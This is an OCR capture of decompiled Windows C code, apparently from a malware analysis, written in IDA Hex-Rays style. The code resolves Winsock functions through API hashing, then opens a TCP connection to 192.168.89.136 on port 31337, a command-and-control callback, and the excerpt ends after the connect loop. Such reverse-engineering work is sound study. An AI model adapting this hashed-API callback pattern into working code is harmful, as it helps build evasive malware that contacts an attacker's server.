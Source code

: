 ```
  ss = 4;
  key = (char *)malloc(0x14u);
  v28 = dword_420398;
  *(_OWORD *)key = 0LL;
  *((_DWORD *)key + 4) = 0;
  memset(v28, 0, '\x02\xCC');
  v1 = dword_4203B0(0);
  dword_4203A4(v1);
  v2 = resolve_APIhashing_ws2_32();
  WSAStartUp = ((int (__stdcall *)(int, _DWORD *))v2[114])(514, v2);
  v2[111] = WSAStartUp;
  if ( WSAStartUp )
    ExitProcess(1u);
  v2[103] = 0;
  v4 = (PADDRINFOA *)(v2 + 101);
  v2[107] = 0;
  v2[108] = 0;
  v2[109] = 0;
  v2[110] = 0;
  getaddrinfo = (int (__stdcall *)(const char *, const char *, _DWORD *, _DWORD *))v2[115];
  v2[104] = 0;
  v2[105] = 1;
  v2[106] = 6;
  hostAddress = getaddrinfo("192.168.89.136", "31337", v2 + 103, v2 + 101);
  v2[111] = hostAddress;
  if ( hostAddress )
    goto LABEL_4;
  addrinfo = *v4;
  v2[102] = *v4;
  if ( addrinfo )
  {
    while ( 1 )
    {
      socket_return = ((int (__stdcall *)(int, int, int))v2[116])(
                        addrinfo->ai_family,
                        addrinfo->ai_socktype,
                        addrinfo->ai_protocol);
      v2[100] = socket_return;
      ((void (__stdcall *)(int, int, int, _DWORD *, int))v2[117])(socket_return, 0xFFFF, 4101, v2 + 113, 4);
      v9 = v2[100];
      if ( v9 == -1 )
        break;
      connect_return = ((int (__stdcall *)(int, _DWORD, _DWORD))v2[119])(
                         v9,
                         *(_DWORD *)(v2[102] + 24),
                         *(_DWORD *)(v2[102] + 16));
      v2[111] = connect_return;
      if ( connect_return == -1 )
      {
        ((void (__stdcall *)(_DWORD))v2[120])(v2[100]);// v2[120]v2[100] == closesocket
        v11 = v2[102];
        v2[100] = -1;
        addrinfo = *(PADDRINFOA *)(v11 + 28);
        v2[102] = addrinfo;
        if ( addrinfo )
          continue;
      }
      goto LABEL_9;
    }
LABEL_4:
    ((void (*)(void))v2[118])();
    ExitProcess(1u);
```